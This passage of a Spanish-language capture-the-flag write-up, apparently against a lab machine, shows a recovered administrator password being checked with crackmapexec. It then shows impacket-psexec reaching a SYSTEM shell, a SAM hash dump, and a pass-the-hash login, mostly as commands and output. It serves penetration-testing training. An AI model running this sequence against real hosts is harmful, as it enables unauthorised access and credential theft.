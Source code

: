 ```
		[+] SecurityPasswordAES : 255 155 28 115 214 107 206 49 172 65 62 174 19 27 70 79 88 47 108 226 209 225 243 218 126 141 55 107 38 57 78 91
		[+] decrypt password ...
		[+] decrypted password: !R3m0te!
```

`Validamos` las `credenciales` por `SMB`

```
# crackmapexec smb 10.129.230.172 -u 'Administrator' -p '!R3m0te!'        
SMB         10.129.230.172  445    REMOTE           [*] Windows 10 / Server 2019 Build 17763 x64 (name:REMOTE) (domain:remote) (signing:False) (SMBv1:False)
SMB         10.129.230.172  445    REMOTE           [+] remote\Administrator:!R3m0te! (Pwn3d!)
```

Nos `conectamos` usando `psexec` y `contraseña`

```
# impacket-psexec 'WORKGROUP/Administrator:!R3m0te!@10.129.230.172'  
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Requesting shares on 10.129.230.172.....
[*] Found writable share ADMIN$
[*] Uploading file OJQiGrKB.exe
[*] Opening SVCManager on 10.129.230.172.....
[*] Creating service TmPR on 10.129.230.172.....
[*] Starting service TmPR.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system
```

También podemos `dumpear` la `SAM (Security Account Manager)` y `conectarnos` usando `psexec`

```
# crackmapexec smb 10.129.230.172 -u 'Administrator' -p '!R3m0te!' --sam
SMB         10.129.230.172  445    REMOTE           [*] Windows 10 / Server 2019 Build 17763 x64 (name:REMOTE) (domain:remote) (signing:False) (SMBv1:False)
SMB         10.129.230.172  445    REMOTE           [+] remote\Administrator:!R3m0te! (Pwn3d!)
SMB         10.129.230.172  445    REMOTE           [+] Dumping SAM hashes
SMB         10.129.230.172  445    REMOTE           Administrator:500:aad3b435b51404eeaad3b435b51404ee:86fc053bc0b23588798277b22540c40c:::
SMB         10.129.230.172  445    REMOTE           Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.129.230.172  445    REMOTE           DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.129.230.172  445    REMOTE           WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:05c9ce2fb8aad311f8447afa1398fb43:::
SMB         10.129.230.172  445    REMOTE           [+] Added 4 SAM hashes to the database

# impacket-psexec WORKGROUP/Administrator@10.129.230.172 -hashes 'aad3b435b51404eeaad3b435b51404ee:86fc053bc0b23588798277b22540c40c'  

Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Requesting shares on 10.129.230.172.....
[*] Found writable share ADMIN$
[*] Uploading file sQpVZdSv.exe
[*] Opening SVCManager on 10.129.230.172.....
[*] Creating service FrWs on 10.129.230.172.....
[*] Starting service FrWs.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.
```
